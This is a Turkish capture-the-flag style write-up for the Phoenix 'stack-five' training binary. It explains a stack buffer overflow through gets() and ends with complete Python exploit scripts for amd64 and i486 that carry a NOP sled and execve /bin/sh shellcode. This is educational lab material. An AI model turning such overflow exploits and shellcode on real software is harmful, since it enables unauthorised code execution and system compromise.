




# Stack Five Writeup

# `Source Code`

Protostar makinesinde bulunan [Stack 5](https://exploit.education/protostar/stack-five/) sorusuna benzer bir soru var. Protostar'ı çözerken o soruda net bir çözüm elde edememiştim. Burada tekrar karşıma çıkınca işi biraz inada bindirdim ve sonunda çözdüm :)

Amacımız buffer'ı taşırdıktan sonra stack içerisine shellcode yüklemek.

Öncelikle gdb üzerinden programımızı açalım ve inceleyelim. `gdb /opt/phoenix/amd64/stack-five`

Main fonksiyonumuzda pek birşey yok. `start_level` isimli bir fonksiyon çağrılmış. Bir de onu inceleyelim.

`start_level` fonksiyonumuzun içerisinde 128 byte'lık bir buffer oluşturulmuş ve `gets` fonksiyonu kullanılmış. Programımıza 128 byte'dan daha fazla karakter gönderelim.

    gef➤  r <<< $(python -c 'print "A"*136+"BBBB"+"CCCC"+"DDDD"+"EEEE"')
**

136 karakterden sonra ki 8 karakterin `instruction pointer` üzerine ve daha sonra gelen karakterlerin de stack pointer üzerine yazıldığını görebilirsiniz.

Burada yapacağımız şey 136 karakter gönderdikten sonra 8 byte uzunluğundaki stack pointer adresimizi `instruction pointer ($rip)` üzerine göndererek programımızın stack pointera gitmesini sağlamak. 136 + 8 byte 'dan sonra da stack pointer üzerine yazabildiğimiz için oraya da shellcode'umuzu yükleyeceğiz. Böylece program akışında rip değeri okununca stack pointera gidilecek ve stack pointerda bulunan shellcode çalışacak.

Teorik olarak yol haritamızı belirlediğimize göre hadi uygulamaya geçelim ve exploitimizi yazmaya başlayalım.

    python stack-five.py > exploit

Evet stack içerisine gönderdiğimiz `"\xCC"` karakterleri çalıştı ve Trace/breakpoint trap mesajını aldık. Ancak programımızı terminal üzerinden çalıştırırsak farklı bir hata alacağız. Şöyle ki...

Sanırım bu hatanın sebebi stack içerisinde adresler kayabiliyor o yüzden gdb üzerinde ve komut satırında farklı hatalar ile karşılaşıyoruz (Tam emin değilim ) . Çözüm olarak `NOP(No Operation)` kullanacağız. (NOP herhangi bir işlem yapmaz)  

`\x90` karakterlerimizi de ekledikten sonra çalıştırınca gene aynı hatayı alıyoruz. `python stack-five.py > exploit` komutuyla çıktı dosyamızı güncelleyelim ve gdb üzerinden çalıştıralım.

`instruction pointer` adresimiz `stack pointer` adresimiz ile uyuşmuyor gördüğünüz gibi. Exploitimzdeki `rip` değişkenini bu adresle güncelleyelim.

Sonunda terminal üzerinde çalıştırdığımızda da `Trace/breakpoint trap` hata mesajını aldık. Şimdi shellcode'umuzu ekleyip çalıştırabiliriz. (tuzak adreslerimize artık ihtiyacımız yok)

Artık çalıştırmaya hazır.

    (python stack-five.py ; cat) | /opt/phoenix/amd64/stack-five

Ve sonunda amacımıza ulaştık ve stack içerisine shellcode yükleyip çalıştırdık.

# `Exploit`

`amd64`

    padding = "A"*136
    rip = "\x95\xe5\xff\xff\xff\x7f\x00\x00"
    nop = "\x90"*70
    # http://shell-storm.org/shellcode/files/shellcode-806.php
    shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    print padding + rip + nop + shellcode

**

`i486`

    import struct
    padding = "A"*140
    eip = struct.pack("I", 0xffffd5e0+70)
    nop = "\x90"*100
    # http://shell-storm.org/shellcode/files/shellcode-811.php
    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    print padding + eip + nop + shellcode

**
